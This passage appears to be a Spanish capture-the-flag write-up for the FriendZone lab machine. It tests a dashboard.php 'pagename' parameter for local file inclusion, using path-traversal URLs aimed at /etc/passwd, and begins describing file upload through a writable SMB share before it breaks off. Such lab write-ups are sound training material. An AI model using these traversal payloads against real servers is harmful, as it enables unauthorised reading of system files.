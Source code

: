 Aqui vemos que existe un fichero 
```bash
 dashboard.php 
```
. Si vamos a la url 
```bash
 https://administrator1.friendzone.red/dashboard.php 
```
, tenemos un mensaje que
dice que el falta el parametro image_name y que por defecto, necesitamos poner 
```bash
 image_id=a&pagename=timestamp 
```
. Intentamos la url siguiente:

```bash
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=timestamp
```

Aqui nos aparece una nueva pagina. Nos llama la atencion el parametro pagename y intentamos cosas

```bash
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=timestamp
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=timestam
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=dashboard.php
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=dashboard
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=/../../../../../etc/passwd
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=/../../../../../etc/passwd%00
```

Aqui hemos constatado que podemos injectar una pagina de la web en esta misma pagina y que no se necessita poner la extension que la pagina añade

```bash
 .php 
```
 por si sola. Es por esto que no se puede ver el 
```bash
 /etc/passwd 
```
 porque añade un 
```bash
 .php 
```
 al final.



## Vulnerability Assessment {-}


### Subiendo ficheros por smb {-}

Cuando hemos mirado los registros compartidos a nivel de red con smbmap, hemos constatado que teniamos derechos de lectura
y de escritura al registro Development. Y esta enumeracion nos a monstrado que el registro Files esta bindeada al directorio
